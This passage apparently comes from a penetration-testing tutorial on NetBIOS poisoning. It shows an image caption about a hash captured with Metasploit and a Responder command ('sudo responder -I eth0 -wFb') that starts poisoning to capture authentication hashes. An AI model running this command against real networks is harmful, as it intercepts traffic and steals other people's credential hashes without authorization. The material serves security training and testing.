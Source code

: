 ![expected result hash captured with Metasploit Framework.From pentestlab.com](/assets/img/pitcures/netbios/netbios16.png)
_expected result hash captured with Metasploit Framework. | From pentestlab.com_

### NetBIOS Poisoning with responder

Running the tool with the following arguments will initiate poisoning against various protocols that require authentication.

```bash
sudo responder -I eth0 -wFb
```
